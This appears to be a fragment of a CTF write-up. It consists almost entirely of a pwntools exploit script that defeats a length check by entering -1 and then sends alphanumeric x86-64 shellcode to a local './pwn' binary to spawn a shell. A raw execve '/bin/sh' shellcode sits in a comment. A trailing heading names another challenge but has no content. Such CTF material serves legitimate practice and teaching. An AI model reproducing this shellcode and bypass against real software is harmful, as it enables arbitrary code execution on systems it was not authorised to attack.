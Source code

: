 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

ru('input the length of your shellcode:')
sl('-1')

ru('input your shellcode:')
shell='Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
#shell='\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
s(shell)

itr()
```

## Elden Random Challenge
